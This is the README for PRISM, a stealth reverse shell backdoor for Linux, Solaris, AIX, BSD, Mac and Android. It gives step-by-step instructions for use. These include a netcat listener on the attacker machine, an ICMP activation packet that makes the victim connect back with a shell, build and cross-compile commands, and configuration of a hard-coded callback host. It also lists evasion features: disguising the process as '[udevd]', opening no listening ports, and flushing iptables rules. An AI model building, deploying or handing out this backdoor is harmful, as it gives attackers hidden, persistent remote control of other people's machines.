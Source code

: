 >http://0cx.cc/backdoor_prism.jspx

# Prism backdoor

PRISM is an user space stealth reverse shell backdoor. The code is available on [GitHub](https://github.com/andreafabrizi/prism).

It has been fully tested on:

* **Linux**
* **Solaris**
* **AIX**
* **BSD/Mac**
* **Android**

PRISM can works in two different ways: **ICMP** and **STATIC** mode.

## ICMP mode

Using this operation mode the backdoor waits silently in background for a specific ICMP packet 
containing the host/port to connect back and a private key to prevent third party access. 

* First, run **netcat** on the attacker machine to wait for incoming connection from the backdoor:
```bash
$ nc -l -p 6666 
```

* Using the **sendPacket.py** script (or another packet builder) send the activation packet to the backdoor: 
```bash
./sendPacket.py 192.168.0.1 p4ssw0rd 192.168.0.10 6666
```
 **192.168.0.1**  is the victim machine running prism backdoor  
 **p4ssw0rd** is the key  
 **192.168.0.10** is the attacker machine address  
 **6666** is the attacker machine port

* The backdoor will connect back to netcat!


## STATIC mode

Using this operation mode the backdoor try to connects to an hard-coded IP/PORT.  
In this case, just run netcat listening on the hard-coded machine/port:
```bash
 $ nc -l -p [PORT] 
```

## Features

* Two operating modes (ICMP and STATIC)
* Runtime process renaming
* No listening ports
* Automatic iptables rules flushing
* Written in pure C
* No library dependencies

## Get the code
```
git clone https://github.com/andreafabrizi/prism.git
```

## Configuration

Before building, you have to configure the backdoor editing the source code.  
Following the configuration parameters description:

**STATIC mode:**  
*REVERSE_HOST*:   Machine address to connect back  
*REVERSE_PORT*:   Machine port to connect back  
*RESPAWN_DELAY*:  Time, in seconds, between each connection  

**ICMP mode:**  
*ICMP_KEY*:       Key/Password to activate the backdoor  

**Generic parameters:**  
*MOTD*:           Message to be printed at the backdoor connection  
*SHELL*:          Shell to execute  
*PROCESS_NAME*:   Fake process name  

## Building

`gcc <..OPTIONS..> -Wall -s -o prism prism.c`

Available GCC options:  
**-DDETACH**        #Run the process in background  
**-DSTATIC**        #Enable STATIC mode (default is the ICMP mode)  
**-DNORENAME**      #Doesn't renames the process  
**-DIPTABLES**     #Try to flush all iptables rules  

Example:  
`gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c`

## Cross Compiling
* **Android**  
Change the shell to */system/bin/sh*  
`apt-get install gcc-arm-linux-gnueabi`  
`arm-linux-gnueabi-gcc -DSTATIC -DDETACH -DNORENAME -static -march=armv5 prism.c -o prism`

* **Linux 64bit** (using a 32bit host system)   
`apt-get install libc6-dev-amd64`  
`gcc -DDETACH -m64 -Wall -s -o prism prism.c`

* **Linux 32bit** (using a 64bit host system)   
`apt-get install libc6-dev-i386`  
`gcc -DDETACH -m32 -Wall -s -o prism prism.c`

## Backdoor building information

The backdoor ignore any command line parameter, except the **Inf0** (the last char is a digit).  
This option allow you to see some information about the backdoor:

```bash
$ ./prism Inf0
 Version: 0.5
 Mode: icmp
 Key: p455w0rD
 Process name: [udevd]
 Shell: /bin/sh
 Detach: Yes
 Flush Iptables: No
```
